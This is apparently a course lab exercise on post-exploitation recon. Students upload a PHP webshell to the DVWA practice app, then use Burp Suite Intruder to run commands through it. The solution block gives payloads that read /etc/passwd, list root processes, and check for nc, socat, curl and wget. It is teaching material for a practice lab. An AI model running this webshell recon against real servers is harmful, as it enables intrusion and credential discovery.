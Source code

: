 # Webshell Recon
For this exercise, you'll perform some recon on the server you compromised in the previous class.
 
Use Firefox to navigate to DVWA. 

Then, follow the instructions below.

## Instructions

- Click on the **File Upload** tab, and upload [webshell.php](webshell.php) to the server.

- Launch Burp Suite, and intercept a request the URL where `webshell.php` was uploaded.

- Send the request to **Intruder**. Set a position around the command in the request, and send payloads that will dump the following information:
  - The current user ID and group ID
  - A list of running processes running as root
  - The contents of `/etc/passwd`
  - Check if the following network tools are installed:
    - `nc`
    - `ncat`
    - `socat`
    - `curl`
    - `wget`
    - **Hint**: To check if a tool exists, check for its version with, e.g.: `nc --version`.

  > **Solution**: The solution uses the command payloads below.
  > 
  > ```bash
  >  # Your Intruder payload should look like the following:
  >  GET /hackable/uploads/webshell.php?cmd=§id§ HTTP/1.1
  >  # User and Group ID
  >  id
  >  # Processes running as root
  >  ps aux | grep root
  >  # Contents of /etc/passwd
  >  cat /etc/passwd
  >  # Existence of network tools
  >  nc --version
  >  ncat --version
  >  socat --version
  >  curl --version
  >  wget --version
  > The non-existence of network utilities means you will not be able to leverage them to break in you will have to find another way to compromise it. 
  > ```

- Read the following Server Fault thread: <https://serverfault.com/questions/519215/what-is-the-difference-between-sbin-nologin-and-bin-false>
